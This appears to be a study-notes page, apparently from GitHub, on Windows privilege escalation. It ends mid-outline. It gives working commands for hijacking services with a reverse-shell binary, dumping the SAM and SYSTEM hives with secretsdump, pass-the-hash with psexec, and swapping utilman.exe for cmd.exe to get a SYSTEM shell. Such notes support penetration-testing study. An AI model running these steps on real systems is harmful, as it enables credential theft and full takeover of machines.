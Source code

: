 ```
		- If an attacker has noted that a binary-path hasn't been contained in double quotes, they may try to create a different executable in a path that resides before the actual executable can be found by SCM
	- Insecure Service Permissions
		- Check to see if the user has permissions to be able to make changes to the service
		- (not the actual binary-path executable but the service itself)
		- Using tools like "Accesschk" from Sysinternals can check for a service DACL (Discretionary Access Control List) 
		- `'.\accesschk64.exe -qlc 'service-name'`
		- See what kind of access-levels users have
		- Adjust payload to have full perms for everyone (up to the attacker, really)
			- `icacls '.\rev-svc.exe' -grant Everyone:F`
		- Adjust binPath of the service:
			- `sc config 'service-name' binPath= "C:\path-to-rev-svc.exe' obj= LocalSystem`
	- Abusing Dangerous Privileges
		- `whoami /priv`
		- List of Privileges:
			- https://learn.microsoft.com/en-us/windows/win32/secauthz/privilege-constants
		- Common Priv's:
			- SeBackup/SeRestore
				- Allow users to read/write to any file in the system ignoring DACL
				- The idea is to allow certain users the ability to perform backups from the system without requiring full admin privileges
				- `reg save hklm\system c:\'somewhere-path'\system.hive`
				- `reg save hklm\sam c:\'somewhere-path'\sam.hive`
				- Impacket could be used to create a on-the-fly smb server with a public share
					- `python3 ../impacket/examples/smbserver.py -smb2support -username 'user-name' -password 'password' public share`
				- Secretsdump could then be used
					- `python3 ../secretsdump.py -sam sam.hive -system system.hive LOCAL`
				- Pass The Hash
					- `python3 ../../psexec.py -hashes 'hash-value' user-name@focused-machine-ip`
			- SeTakeOwnership
				- `SeTakeOwnershipPrivilege`
				- `utilman.exe`
					- Built-in Windows application used to provide Ease of Access options via the lock screen
				- `takeown /f C:\Windows\System32\Utilman.exe`
				- `icacls c:\Windows\System32\Utilman.exe /grant user-name:F`
					- Now full perms on it (since ownership was toggled earlier, full perms weren't set in place, but can be since owner)
				- `copy ..\cmd.exe ..\utilman.exe`
				- Lock screen > Ease of Access > terminal > `whoami` = System.
			- SeImpersonate / SeAssignPrimaryToken
				- These priv's allow a process to impersonate other users and act on their behalf
				- Consists of being able to spawn a process or thread under the security context of another user
					- Example: FTP > User logs in to access their files > FTP Server uses its own credentials to pull the users files (not the users)
					- FTP Token
					- Providing that the DACL allows for the user FTP to access contents
				- "LOCAL SERVICE" and "NETWORK SERVICE" accounts have the above privileges
				- IIS (Internet Information Service) has a similar account
					- `iis apppool\defaultapppool`
				- Spawn a process.
					- So that users can connect and authenticate to it so that impersonation can occur
					- or, to find a way to force privileged users to connect and authenticate to the spawned malicious process
				- RogueWinRM
	- Abusing Vulnerable Software
		- Unpatched Software
			- Such as drivers can sometimes not be updated by the organisation or user. 
```